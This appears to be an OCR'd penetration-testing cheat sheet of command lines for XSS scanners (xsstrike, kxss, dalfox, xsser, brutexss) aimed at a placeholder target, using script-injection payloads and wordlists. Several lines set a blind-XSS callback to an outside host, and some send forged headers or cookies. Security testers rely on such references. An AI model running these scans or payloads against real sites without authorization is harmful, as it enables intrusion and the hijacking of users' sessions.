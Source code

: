     :- Custom payloads and headers
    xsstrike -u "https://target.com/input?val=1" -f /path/to/payloads.txt --headers "Cookie: SESSID=123" 
    
    :- Test JSON input in POST body, path discovery
    xsstrike -u "https://target.com/api" --json --path -d '{"key":"FUZZ"}' -o xsstrike_json.html 

    
    :- Simple Reflected XSS scanner
    kxss 'https://target.com/index.php?p=FUZZ'
    
    :- Pipe URL and set custom parameters like cookies
    echo 'https://target.com/q=FUZZ' | kxss -p 'Cookie: test=kXSS'
    ----
        dalfox url 'https://target.com/search?q=test'
    dalfox url 'https://target.com/search?q=test' -b https://xss.burpcollab.net
    xsstrike -u "https://target.com/search?q=1"
    xsstrike -u "https://target.com/search?q=1" --crawl -t 10
    xsser -u "https://target.com" -g "/search.php?q=XSS" -c 3
    kxsstester -u https://target.com/search?q=1
    kxsstester -u https://target.com/search?q=1 --dom --post-data 'param=val'
    brutexss -u https://target.com -p "param1 param2" -w xss_payloads.txt
    ------
    dalfox url 'https://target.com/search?q=test' -b https://xss.burpcollab.net -w /usr/share/seclists/Fuzzing/XSS/XSS-Payloads-L5.txt -p 10
    dalfox url 'https://target.com/submit' -p 'param1=value1&param2=<script>alert(1)</script>' -X POST -b https://xss.burpcollab.net
    xsstrike -u "https://target.com/search?q=1" --crawl -t 20 --fuzzer all --level 3 -o xsstrike_crawl.txt
    xsstrike -u "https://target.com/profile?id=1" --params "id" -p XSS/XSS-Payloads.txt
    xsser -u "https://target.com" -g "/search.php?q=XSS" -c 5 --payloads XSS/XSS-Payloads.txt
    xsser -u "https://target.com/form.html" --post="name=test&email=<script>alert(1)</script>"
    kxsstester -u https://target.com/search?q=1 --dom --post-data 'param=val' --payloads XSS/DOMXSS.txt
    kxsstester -u https://target.com/vuln#test=<script>alert(1)</script> --hash
    brutexss -u https://target.com -p "name query search" -w XSS/XSS-Payloads.txt -t 30
    brutexss -u https://target.com -data "param1=value1&param2=FUZZ" -w XSS/XSS-Payloads.txt -m POST
    ------
    dalfox url 'https://target.com/search?q=test' -b https://xss.burpcollab.net -w XSS/XSS-Payloads-Full.txt -p 15 -smart
    dalfox url 'https://target.com/submit' -p 'param1=value1&param2=<img src=x onerror=alert(1)>' -X POST -b https://xss.burpcollab.net -blind-timeout 30
    xsstrike -u "https://target.com/search?q=1" --crawl -t 25 --fuzzer all --level 5 -o xsstrike_crawl_full.txt --vectors all
    xsstrike -u "https://target.com/profile?id=1" --params "id" -p XSS/XSS-Polyglots.txt --encode
    xsser -u "https://target.com" -g "/search.php?q=XSS" -c 7 --payloads XSS/XSS-Payloads-Advanced.txt --delay 2
    xsser -u "https://target.com/form.html" --post="name=test&email=<svg><script>alert(1)</script></svg>" --headers "Content-Type: application/xml"
    kxsstester -u https://target.com/search?q=1 --dom --post-data 'param=val' --payloads XSS/DOMXSS.txt --proxy http://127.0.0.1:8080
    kxsstester -u https://target.com/vuln#test=<img src=x onerror=prompt(1)> --hash --user-agent "Mozilla/5.0"
    brutexss -u https://target.com -p "name query search input" -w XSS/XSS-Payloads-L5.txt -t 35 -headers "X-Forwarded-For: 127.0.0.1"
    brutexss -u https://target.com -data "param1=value1&param2=FUZZ" -w XSS/XSS-Event-Attributes.txt -m POST -cookies "sessionid=..."
